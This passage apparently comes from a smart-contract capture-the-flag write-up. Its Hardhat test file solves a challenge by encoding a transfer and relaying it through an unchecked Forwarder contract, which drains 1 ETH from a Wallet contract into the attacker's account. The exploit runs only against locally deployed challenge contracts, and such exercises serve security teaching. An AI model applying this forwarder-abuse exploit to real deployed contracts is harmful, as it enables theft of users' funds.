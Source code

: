 Using `encode`, we can then perform our attack as follows:

_Forwarder.js_
```javascript
const { loadFixture } = require("@nomicfoundation/hardhat-network-helpers");
const { expect } = require("chai");
const { ethers } = require("hardhat");

const WALLET_NAME = "Wallet";
const FORWARDER_NAME = "Forwarder";
const NAME = "Forwarder tests";

describe(NAME, function () {
    async function setup() {
        const [, attackerWallet] = await ethers.getSigners();
        const value = ethers.utils.parseEther("1");

        const forwarderFactory = await ethers.getContractFactory(FORWARDER_NAME);
        const forwarderContract = await forwarderFactory.deploy();

        const walletFactory = await ethers.getContractFactory(WALLET_NAME);
        const walletContract = await walletFactory.deploy(forwarderContract.address, { value: value });

        return { walletContract, forwarderContract, attackerWallet };
    }

    describe("exploit", async function () {
        let walletContract, forwarderContract, attackerWallet, attackerWalletBalanceBefore;
        before(async function () {
            ({ walletContract, forwarderContract, attackerWallet } = await loadFixture(setup));
            attackerWalletBalanceBefore = await ethers.provider.getBalance(attackerWallet.address);
        });

        it("conduct your attack here", async function () {
            const encoderFactory = await ethers.getContractFactory("Encoder");
            const encoderContract = await encoderFactory.deploy();

            const data = await encoderContract.encode(attackerWallet.address, ethers.utils.parseEther("1"));

            await forwarderContract.functionCall(walletContract.address, data);
        });

        after(async function () {
            const attackerWalletBalanceAfter = await ethers.provider.getBalance(attackerWallet.address);
            expect(attackerWalletBalanceAfter.sub(attackerWalletBalanceBefore)).to.be.closeTo(
                ethers.utils.parseEther("1"),
                1000000000000000
            );

            const walletContractBalance = await ethers.provider.getBalance(walletContract.address);
            expect(walletContractBalance).to.be.equal("0");
        });
    });
});
```
